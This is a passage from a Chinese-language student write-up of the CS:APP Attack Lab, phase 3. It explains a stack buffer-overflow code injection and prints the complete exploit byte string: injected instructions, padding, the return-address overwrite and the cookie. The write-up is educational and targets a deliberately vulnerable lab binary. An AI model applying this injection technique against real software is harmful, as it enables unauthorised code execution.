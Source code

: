 cooike的ascii码很简单, 对照ascii码表即可得:

```CQL
35 39 62 39 39 37 66 61 00 /* 9 bytes */ 
```

唯一值得注意的是, 要在末尾添加\0表示c 字符串的结束.

难点在于确定位置: 说说我做的时候遇到的问题:

之所以难以确定字符串存放的位置, 是因为后续的hexmatch和stringncmp函数会覆盖buf的stack空间.

- 我最初想的是, 将字符串存放在一个相对很低的位置, 让后续的两个函数不会产生覆盖. 但是这样的问题是, cooike string无法进行硬编码. 毕竟没有指令可以直接写字符串到内存中, 倒是可以一个个字符的写入, 但是这样我们的exploit string会过长, 于是这个方法废弃了.

- 说第二想法之前, 我们先看看后续的程序会对stack空间做些什么:

  ![image-20200721090502836](https://cdn.jsdelivr.net/gh/ravenxrz/PicBed/img/image-20200721090502836.png)

  那字符串到底放在哪里? 我尝试了将字符串放在了buf的stack顶端和低端, 如下两图:

  ![image-20200721090628772](https://cdn.jsdelivr.net/gh/ravenxrz/PicBed/img/image-20200721090628772.png)

  经过gdb调试,两者都会被覆盖, 所以这个方案也被pass掉了.

  继续思考, 放在内存的低端的确很容易被覆盖,因为hexmatch函数中有个随机从某个位置开始写入cbuf的操作, 所以低端是没法用的. 只能考虑高端, 高端是由 push压入regs导致的覆盖, 只要避免了这个就好了. 回忆以下push指令是如何工作的, 

  ```asm
  push reg
  ```

  reg被压入%rsp当前指向的内存空间, 然后%rsp-1

  所以我们可以直接继续覆盖, 看示意图:

![image-20200721091909441](https://pic.downk.cc/item/5f16832c14195aa594b36a03.png)

可以得到注入代码:

```asm
/* question3: */
48 c7 c7 a8 dc 61 55 /* mov $0x5561dca8,%rdi 设置$rdi指向string内存地址 */
68 fa 18 40 00       /* pushq  $0x4018fa     push touch3的地址 */
c3                   /* ret                  返回 */
/* 上面一共13个字节, buf一共40个字节所以需要填充 40-13=27个字节 */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00 00 00 00 00 00 /* 8 bytes */
00 00 00                /* 3 bytes */
78 dc 61 55 00 00 00 00 /* exploit string code 的开始地址（即get buf的栈地地址) */
35 39 62 39 39 37 66 61 00 /* 继续覆盖为cookie string */
```

## 4. Phase 4

从这个阶段开始, 就是aop攻击的内容了. 所以在继续之前, 一定要知道rop攻击的理论基础. 
